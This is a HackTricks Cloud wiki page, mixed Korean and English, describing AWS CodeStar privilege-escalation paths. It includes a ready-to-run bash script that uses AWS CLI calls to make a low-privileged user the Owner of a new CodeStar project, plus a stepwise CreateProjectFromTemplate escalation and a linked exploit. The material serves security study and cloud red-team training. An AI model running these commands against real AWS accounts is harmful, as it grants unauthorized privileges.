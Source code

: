 # AWS - Codestar Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Codestar

codestar에 대한 더 많은 정보는 다음에서 확인할 수 있습니다:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

이 권한을 사용하면 **cloudformation 템플릿**을 통해 **임의의 작업**을 수행하기 위해 **codestar IAM 역할**을 **악용**할 수 있습니다. 다음 페이지를 확인하세요:

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

이 기술은 `codestar:CreateProject`를 사용하여 codestar 프로젝트를 생성하고, `codestar:AssociateTeamMember`를 사용하여 IAM 사용자를 새로운 CodeStar **프로젝트**의 **소유자**로 만듭니다. 이로 인해 **몇 가지 추가 권한이 포함된 새로운 정책**이 부여됩니다.
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
If you are already a **member of the project** you can use the permission **`codestar:UpdateTeamMember`** to **update your role** to owner instead of `codestar:AssociateTeamMember`

**Potential Impact:** Privesc to the codestar policy generated. You can find an example of that policy in:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. **새 프로젝트 생성:**
* **`codestar:CreateProjectFromTemplate`** 작업을 사용하여 새 프로젝트 생성을 시작합니다.
* 성공적으로 생성되면 **`cloudformation:UpdateStack`**에 대한 액세스가 자동으로 부여됩니다.
* 이 액세스는 `CodeStarWorker-<generic project name>-CloudFormation` IAM 역할과 연결된 스택을 대상으로 합니다.
2. **대상 스택 업데이트:**
* 부여된 CloudFormation 권한으로 지정된 스택을 업데이트합니다.
* 스택의 이름은 일반적으로 두 가지 패턴 중 하나에 따릅니다:
* `awscodestar-<generic project name>-infrastructure`
* `awscodestar-<generic project name>-lambda`
* 정확한 이름은 선택한 템플릿에 따라 다릅니다(예제 익스플로잇 스크립트 참조).
3. **액세스 및 권한:**
* 업데이트 후, 스택과 연결된 **CloudFormation IAM 역할**에 할당된 기능을 얻습니다.
* 참고: 이는 본질적으로 전체 관리자 권한을 제공하지 않습니다. 권한을 추가로 상승시키기 위해 환경 내에서 잘못 구성된 리소스가 필요할 수 있습니다.

For more information check the original research: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
You can find the exploit in [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py)

**Potential Impact:** Privesc to cloudformation IAM role.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
